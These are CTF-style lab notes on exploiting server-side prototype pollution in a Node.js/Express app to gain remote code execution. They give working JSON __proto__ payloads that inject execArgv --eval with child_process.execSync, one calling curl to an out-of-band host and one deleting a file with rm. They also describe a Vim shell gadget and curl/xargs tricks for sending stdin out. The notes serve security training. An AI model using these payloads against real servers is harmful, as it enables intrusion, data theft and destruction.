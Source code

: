 ```sh
- shell option only accepts the name of the shell executable, not any additional command-line arguments. 
- shell is always executed with the -c argument, but in Node is syntax check -> tricky to use Node shell to run commands
- input property containing your payload is passed via stdin -> shell you choose must accept commands from stdin. 
# Text editors (Vim and ex) fulfill all of these criteria. If either of these happen to be installed -> RCE doing this:
"shell":"vim",
"input":":! <command>\n"
# NOTE: Vim has interactive prompt and expects the user to hit Enter; that is why \n 
Additional limitation -> some tools do not read from stdin
Solution: e.g., curl read stdin and send the contents as the body of a POST request using the -d @- argument
In other cases, you can use xargs, which converts stdin to a list of arguments that can be passed to a command. 




    The application run Node.js and the Express framework. It is vulnerable to server-side prototype pollution (SSPP) because it unsafely merges user-controllable input into a server-side JavaScript object.

    SSPP Exploit steps:

    Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.
    Identify a gadget that you can use to inject and execute arbitrary system commands.
    Trigger remote execution of a command that deletes the file /home/carlos/morale.txt.

    Identify prototype pollution

"__proto__": {
    "json spaces":10
}

    Test for remote code execution (RCE) by performing DNS request from back-end.

"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://OASTIFY.COM')"
    ]
}

Inject exploit in to read or delete user sensitive data. After injection, trigger new spawned node child processes, by using admin panel maintenance jobs button. This will action on Carlos secret file.

"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
{% endcode %}
